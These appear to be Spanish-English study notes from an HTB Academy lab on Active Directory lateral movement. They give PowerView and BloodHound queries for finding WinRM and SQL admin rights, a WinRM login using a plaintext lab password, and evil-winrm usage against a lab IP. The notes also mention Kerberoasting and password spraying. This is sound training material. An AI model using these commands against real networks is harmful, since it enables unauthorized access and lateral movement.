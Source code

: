 ```
Enumerating the Remote Management Users Group

Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
## RAW Query en BloodHound

MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```


#### Establishing WinRM Session from Windows


```
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-DB01
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb>
```

### Desde Linux Evil-WinRM

```
gem install evil-winrm
evil-winrm -i 10.129.201.234 -u forend
```

We can connect with just an IP address and valid credentials


## SQL Server Admin

More often than not, we will encounter SQL servers in the environments we face. It is common to find user and service accounts set up with sysadmin privileges on a given SQL server instance. We may obtain credentials for an account with this access via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying. Another way that you may find SQL server credentials is using the tool Snaffler to find web.config or other types of configuration files that contain SQL server connection strings.

BloodHound, once again, is a great bet for finding this type of access via the SQLAdmin edge. We can check for SQL Admin Rights in the Node Info tab for a given user or use this custom Cypher query to search:

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/80763498-118d-4314-9517-b67423dd87c8)
